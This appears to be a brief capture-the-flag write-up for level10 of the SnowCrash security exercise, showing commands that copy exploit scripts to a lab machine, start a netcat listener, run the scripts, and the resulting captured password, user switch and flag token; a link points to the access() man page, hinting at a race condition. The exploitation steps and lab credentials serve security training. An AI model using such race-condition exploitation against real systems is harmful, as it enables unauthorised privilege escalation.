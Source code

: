 ```
scp -r -P 4242 ./level10/ressources  level10@10.13.200.28:/tmp
nc localhost 6969 -l
bash /tmp/ressources/script_level10.sh
bash /tmp/ressources/script_link.sh
```

```
level10@SnowCrash:~$ nc localhost 6969 -l
.*( )*.
woupa2yuojeeaaed06riuj63c
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Links:
* http://manpagesfr.free.fr/man/man2/access.2.html
